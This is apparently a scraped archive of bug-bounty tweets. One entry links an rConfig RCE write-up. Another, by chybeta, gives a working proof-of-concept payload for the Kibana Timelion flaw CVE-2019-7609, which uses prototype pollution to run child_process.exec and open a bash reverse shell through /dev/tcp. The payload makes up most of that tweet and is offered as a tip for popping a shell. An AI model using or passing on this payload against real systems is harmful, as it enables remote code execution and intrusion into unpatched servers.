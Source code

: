 * https://shells.systems/rconfig-v3-9-2-authenticated-and-unauthenticated-rce-cve-2019-16663-and-cve-2019-16662/

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>13</code></td>
<td>Retweets: <code>243</code></td>
<td>Favorites: <code>573</code></td>
</tr></table>

---

# chybeta
**https://twitter.com/chybeta/status/1185860595620311042 _at 2019-10-20, 10:09:32_**
<blockquote>
CVE-2019-7609  If you can't pop a shell via the last tweet ， you can change poc like 👇

.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i&gt;&amp; /dev/tcp/127.0.0.1/6666 0&gt;&amp;1\'");//')

#BugBountyTips #BugBounty #bugbountytip https://t.co/XLGHJnxT0Y
</blockquote>

<table><tr>
<td><img src="pictures/9a7bd1886b008dcc6f987ff2a0150a290e341a17c27b8a176f93a2952592aee5.jpg" alt="9a7bd1886b008dcc6f987ff2a0150a290e341a17c27b8a176f93a2952592aee5.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>280</code></td>
<td>Favorites: <code>599</code></td>
</tr></table>

---